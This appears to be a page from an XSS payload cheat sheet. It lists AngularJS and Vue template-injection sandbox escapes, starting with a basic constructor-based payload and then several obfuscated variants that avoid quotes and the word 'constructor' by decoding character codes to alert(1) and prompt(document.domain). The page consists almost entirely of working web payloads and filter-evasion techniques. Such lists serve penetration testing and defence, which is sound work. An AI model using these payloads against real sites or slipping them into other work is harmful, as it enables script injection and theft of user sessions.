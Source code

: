 AngularJS 1.0.1 - 1.1.5 and Vue JS

  

```javascript

{{constructor.constructor('alert(1)')()}}

```

  

### Advanced bypassing XSS

  

AngularJS (without `'` single and `"` double quotes) by [@Viren](https://twitter.com/VirenPawar_)

  

```javascript

{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(97,108,101,114,116,40,49,41))()}}

```

  

AngularJS (without `'` single and `"` double quotes and `constructor` string)

  

```javascript

{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,toString()[a].fromCharCode(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}

```

  

```javascript

{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,toString()[a].fromCodePoint(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}

```

  

```javascript

{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);a.sub.call.call({}[a].getOwnPropertyDescriptor(a.sub.__proto__,a).value,0,toString()[a].fromCharCode(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}

```

  

```javascript

{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);a.sub.call.call({}[a].getOwnPropertyDescriptor(a.sub.__proto__,a).value,0,toString()[a].fromCodePoint(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}

```
